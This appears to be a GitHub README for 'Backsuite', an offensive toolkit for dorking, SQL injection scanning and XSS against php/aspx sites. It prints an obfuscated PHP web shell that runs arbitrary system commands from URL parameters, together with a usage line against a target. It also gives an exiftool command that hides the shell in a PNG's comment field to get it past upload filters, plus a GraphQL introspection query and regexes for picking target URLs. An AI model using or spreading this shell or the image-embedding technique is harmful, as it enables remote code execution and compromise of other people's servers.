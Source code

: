  # Backsuite
 
 <ul>
  <li>[ &#x1F608;  ] Dorks with : google.com / yahoo.com / bing.com</li>
  <li>[ &#x1F52D;  ] Scope ending files : <b>php</b> / <b>aspx</b></li>
  <li>[ &#x1F489;  ] Scan : SQL Injection </li>
  <li>[ &#x1F4C4;  ] List of Syntax <I><b>[errors]</b></I> to detect an SQL injection  </li>
  <li>[ &#x274C;  ] Xss payloads   </li>
  <li>[ &#x1F50D;  ] SQL injection - Characters   </li>
</ul>

# Gra-SQL:
    {__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
    
# Use <TARGET>/file.php?_=system&__=ls -la

SHELL = {`<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]);`}

##### Download <img height="33" width="33" src="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png"><a href="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png">Img<a> 

 `exiftool -Comment='exiftool -Comment="<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]); __halt_compiler();' googleg_standard_color_128dp.png`
<hr>

###### Scope : only view x.php?x=x | and | x.aspx?x=x
`([.]+[aspxh]{3,4}[?]{1,1}[a-zA-Z0-9_-]{1,10}[=]{1,1})` 

###### Scope : only view ALL LINKS x.x?x= | x/x?x | /?x=x
`([?]{1,1}[a-zA-Z0-9\-_=]{1,10})`

###### Scope : only view x.php?x=x | and | x.aspx?x=x | and | x.php/aspx?x
`([.]+[aspxh]{3,4}[a-zA-Z0-9-\_.=?&]{1,50})`

###### Scope : only view x.php/aspx?x=x | x.php/aspx
`([.]+[aspxh]{3,4})`

###### Scope : view all / | x.php/aspx | x.php/aspx?x=x | /?x=x
`([a-z_.-][?-][a-z0-9+$%_.-])?`

###### Scope : only view .php / .aspx / .js / .json
`([a-zA-Z0-9-_.]+[.]+[a-z]{2,4}$)`

###### Scope : only view .php?id=...etc / .aspx?id=12&name=foo
`([a-zA-Z0-9-_.]+[\S]+[?$])`

###### Scope : only view end with /
`([a-zA-Z0-9-_.]+[/]$)`




